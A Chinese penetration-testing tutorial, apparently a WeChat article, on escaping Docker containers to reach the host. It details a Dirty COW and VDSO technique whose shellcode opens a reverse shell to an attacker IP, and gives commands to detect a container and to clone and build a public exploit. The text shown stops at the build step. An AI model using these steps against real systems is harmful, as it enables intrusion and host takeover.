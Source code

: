 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/5tKhYPvaOqA2y9udblGIXg)

前言  

获取某个系统 shell 后发现其是 docker，这时候我们就需要进行 docker 逃逸来拿到其真正宿主的权限。这里提供几种思路。

1.  利用 dirty cow 来进行 docker 逃逸
    
2.  cve-2019-5736
    
3.  docker 配置不当
    

**利用 dirty cow 来进行 docker 逃逸**
==============================

**1. 前置知识**
-----------

VDSO 其实就是将内核中的. so 文件映射到内存，.so 是基于 Linux 下的动态链接, 其功能和作用类似与 windows 下. dll 文件。

在 Linux 中，有一个功能：VDSO(virtual dvnamic shared object), 这是一个小型共享库，能将内核自动映射到所有用户程序的地址空间, 可以理解成将内核中的函数映射到内存中，方便大家访问。

**2. 利用 dirty cow 与 VDSO 来实现 docker 逃逸的过程**
-------------------------------------------

dirty cow 漏洞可以让我们获取只读内存的写的权限，我们首先利用 dirty cow 漏洞写入一段 shellcode 到 VDSO 映射的一段闲置内存中，然后改变函数的执行顺序，使得调用正常的任意函数之前都要执行这段 shellcode。这段 shellcode 初始化的时候会检查是否是被 root 调用，如果是则继续执行，如果不是，则接着执行 clock_gettime 函数，接下来它会检测 / tmp/.X 文件的存在，如果存在，则这时已经是 root 权限了，然后它会打开一个反向的 TCP 链接，为 Shellcode 中填写的 ip 返回一个 Shell。

这种利用方法利用成功的前提是，宿主机的内核有 dirty cow 漏洞。

**3. 利用过程**
-----------

### 1. 判断是否为 docker 环境

```
ls -alh /.dockerenv
```

docker 环境中根目录下存在此文件  
![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavxrGfZ0YIvHv7WhHBH4Rltfoyleict1no7fblUaBr7Uvod743vDtp06HJKjt3KZAib4dalC5w4WAfcQ/640?wx_fmt=png)  

查看系统进程的 cgroup 信息  

```
cat /proc/1/cgroup
```

![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavxrGfZ0YIvHv7WhHBH4Rltff1qjMpz2s5ics8UVuhUzYSZef4OBqBYVfDMllpj5AfpK6bdMZdTEgVQ/640?wx_fmt=png)  

### 2. 下载脚本

```
git clone https://github.com/scumjr/dirtycow-vdso.git
cd /dirtycow-vdso/
make
```
